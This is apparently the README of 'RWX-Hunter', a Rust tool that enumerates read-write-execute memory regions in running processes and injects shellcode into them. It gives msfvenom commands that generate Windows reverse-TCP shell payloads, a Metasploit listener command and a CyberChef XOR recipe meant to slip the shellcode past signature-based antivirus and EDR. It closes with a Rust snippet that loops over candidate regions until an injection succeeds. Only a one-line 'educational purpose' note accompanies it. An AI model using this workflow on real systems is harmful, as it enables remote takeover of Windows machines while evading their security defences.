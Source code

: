 # RWX-Hunter


Enumerating RWX Protected Memory Regions for Code Injection.

> [!NOTE]
> Developed with the intension of using this tool only for educational purpose.

Generate shellcode (example):

msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f num LHOST=\<IP\> LPORT=\<PORT\>\
msfvenom -p windows/shell_reverse_tcp -a x86 -f num LHOST=\<IP\> LPORT=\<PORT\>
msfconsole -x "use exploit/multi/handler; set LHOST \<IP\>; set LPORT \<PORT\>; set ExitOnSession false; run -j"

Obfuscate it with static xor key for signature based EDR/AV (example key: 0xC 0x3 0xFA 0x8 0x3)
<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'0xC0x30xFA0x80x3'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)Find_/_Replace(%7B'option':'Simple%20string','string':','%7D,',%20',true,false,true,false)&oeol=FF>

Inspired by: <https://www.ired.team/offensive-security/defense-evasion/finding-all-rwx-protected-memory-regions>

## Example

```rust
let mut hunter = RWXhunter::new(vec![0], vec![0], vec![12, 3, 250, 8, 3].into(), API::Native);
while hunter.find_next_candidate().is_ok() {
    if hunter.inject().is_ok() {
        return Ok(());
    }
}
```

## Installation

```bash
cargo run
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)

